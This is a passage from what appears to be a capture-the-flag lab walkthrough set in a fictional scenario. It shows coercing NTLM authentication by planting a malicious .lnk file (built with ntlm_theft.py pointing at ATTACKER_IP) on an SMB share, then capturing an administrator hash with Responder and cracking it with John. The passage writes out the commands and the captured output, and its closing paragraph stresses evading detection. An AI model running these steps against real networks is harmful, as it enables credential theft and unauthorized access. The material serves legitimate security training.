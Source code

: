 For our specific example, we will create an lnk file using the following command:

```
python3 ntlm_theft.py -g lnk -s ATTACKER_IP -f stealthy
```

This will create an lnk file in the stealthy directory named stealthy.lnk. With this file, we can now coerce authentication!

McGreedy Much?

We know that McGreedy is a little snoopy. So let’s add the lnk file to our network share and hope he walks right into our trap. Use your favourite file editor, you can inspect the lnk file that we have created. We will now add this file to the network file share to coerce authentication. Connect to the network file share on \\10.10.226.5\ElfShare\. You can use smbclient to connect as shown below:

```
cd stealthy
smbclient //10.10.226.5/ElfShare/ -U guest%
smb: \>put stealthy.lnk
smb: \>dir
```

The first command will connect you to the share as a guest. The second command will upload your file, and the third command will list all files for verification.  Next, we need to run Responder to listen for incoming authentication attempts. We can do this by running the following command from a terminal window:

```responder -I ens5```

If you’re not using the AttackBox, you will have to replace ens5 with your tun adapter for your VPN connection.

Let’s give McGreedy a couple of minutes. He might be taking a hot chocolate break right now, but we should hear back from him in less than five minutes. While we wait, use your connection to the network file share to download the key list he left us as a clue using get greedykeys.txt. Once he authenticates, you will see the following in Responder:

```
[SMB] NTLMv2-SSP Client   : ::ffff:10.10.158.81
[SMB] NTLMv2-SSP Username : ELFHQSERVER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::ELFHQSERVER:a9ba71e9537c4fbb:5AC8FC35C8EE8159C95C118EB107DA84:redacted
[*] Skipping previously captured hash for ELFHQSERVER\Administrator
```

Perfect! Now that we have the challenge, let’s try to crack it to recover the new password. As mentioned before, the challenge was encrypted with the user’s NTLM hash. This NTLM hash is derived from the user’s password. Therefore, we can now perform a brute-force attack on this challenge in order to recover the user’s password. Copy the contents of the NTLMv2-SSP Hash portion to a text file called hash.txt using your favourite editor and save it. Then, use the following command to run John to crack the challenge:

```john --wordlist=greedykeys.txt hash.txt```

After a few seconds, you should receive the password. Magic! We have access again! Take back control by using the username and password to authenticate to the host via RDP!

Conclusion

Coercing authentication with files is an incredible technique to have in your red team arsenal. Since conventional Responder intercepts are no longer working, this is a great way to continue intercepting authentication challenges. Plus, it goes even further. Using Responder to poison requests such as LLMNR typically disrupts the normal use of network services, causing users to receive Access Denied messages. Using lnk files for coercing authentication means that we are not actually poisoning legitimate network services but creating brand new ones. This lowers the chance of our actions being detected.

```